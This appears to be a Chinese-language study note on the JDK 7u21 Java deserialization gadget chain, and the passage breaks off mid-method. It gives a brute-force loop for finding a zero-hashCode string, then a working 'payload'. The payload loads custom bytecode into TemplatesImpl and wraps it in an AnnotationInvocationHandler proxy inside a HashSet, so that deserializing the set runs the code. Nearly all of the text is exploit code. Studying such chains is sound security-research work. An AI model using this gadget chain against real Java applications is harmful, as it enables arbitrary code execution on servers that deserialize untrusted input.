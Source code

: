找hashCode为0的字符串脚本

起初是用int写的,结果太小没跑出了,怪不得每次就算+1,p牛也还是用的Long写的....

```java
for (long i = 0; i < 9999999999L; i++) {
            String s=Long.toHexString(i);
            if (s.hashCode() == 0) {
                System.out.println(Long.toHexString(i));
            }
        }
```



##### payload

```java
public static void main(String[] args)throws Exception {
        Constructor<?> declaredConstructor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructor(Class.class, Map.class);
        String zeroHashCodeStr = "f5a5a608";

        HashMap map = new HashMap();
        map.put(zeroHashCodeStr, "foo");

        TemplatesImpl templates=new TemplatesImpl();
        Class<? extends TemplatesImpl> templatesClass = templates.getClass();
        Field name = templatesClass.getDeclaredField("_name");
        name.setAccessible(true);
        name.set(templates,"aaa");
        Field bytecodes = templatesClass.getDeclaredField("_bytecodes");
        bytecodes.setAccessible(true);
        byte[] code= Files.readAllBytes(Paths.get("H:\\java\\unser\\7u21\\target\\test-classes\\MyClass.class"));
        byte[][] codes={code};
        bytecodes.set(templates,codes);

        Field tfactory = templatesClass.getDeclaredField("_tfactory");
        tfactory.setAccessible(true);
        tfactory.set(templates,new TransformerFactoryImpl());
        Class<Templates> templatesClass1 = Templates.class;
        //为templates创建代理实例proxy,调用proxy的任意方法都会调用到AnnotationInvocationHandler里面的invoke方法
        declaredConstructor.setAccessible(true);
        InvocationHandler handler = (InvocationHandler)declaredConstructor.newInstance(Templates.class, map);
        Object proxy= Proxy.newProxyInstance(test.class.getClassLoader(), templatesClass.getInterfaces(), handler);
        HashSet hashSet = new HashSet();
        hashSet.add(templates);
        hashSet.add(proxy);
        map.put(zeroHashCodeStr,templates);

        serialize(hashSet);
        unserialize("C:\\Temp\\test.bin");


    }

    public static void serialize(Object obj)throws IOException {
        ObjectOutputStream oos=new ObjectOutputStream(new FileOutputStream("C:\\Temp\\test.bin"));
        oos.writeObject(obj);
    }

    public static Object unserialize(String path) throws Exception{

        ObjectInputStream objectInputStream = new ObjectInputStream(new FileInputStream(path));
```